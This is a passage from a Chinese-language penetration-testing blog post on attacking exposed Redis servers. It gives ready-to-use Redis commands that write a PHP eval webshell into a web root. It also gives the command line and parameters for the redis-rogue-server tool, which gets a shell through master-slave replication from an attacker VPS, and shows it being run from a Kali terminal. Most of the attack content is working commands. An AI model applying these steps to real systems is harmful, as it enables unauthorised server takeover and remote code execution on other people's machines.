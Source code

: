 
[![img](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105335567-992541671.png)](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105335567-992541671.png)

## 0x04 通过文件写入获取webshell

利用条件：

- 未授权访问或授权口令已知
- 服务器开着WEB服务且WEB目录路径已知

倘若服务器运行着LAMP/LNMP服务，且已知工作目录为`/var/www/html/`，可通过以下指令写入webshell，或参考写入SSH公钥的过程写入木马文件：



```shell
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php @eval($_POST['test']);?>"
save
```

## 0x05 通过主从复制获取shell

利用条件：

- 未授权访问或授权口令已知
- Redis <=5.0.5

参考地址：https://github.com/n0b0dyCN/redis-rogue-server

使用方法：



```shell
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：

- --rpasswd 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- --rhost 目标redis服务IP
- --rport 目标redis服务端口，默认为6379
- --lhost vps的IP地址
- --lport vps的端口，默认为21000



```shell
┌──(root💀kali)-[/home/kali]
└─# git clone https://github.com/n0b0dyCN/redis-rogue-server.git

┌──(root💀kali)-[/home/kali]
└─# cd redis-rogue-server

┌──(root💀kali)-[/home/kali]
└─# python3 redis-rogue-server.py --rhost 192.168.100.101 --lhost 192.168.100.99
```

[![img](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105353632-844791741.png)](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105353632-844791741.png)
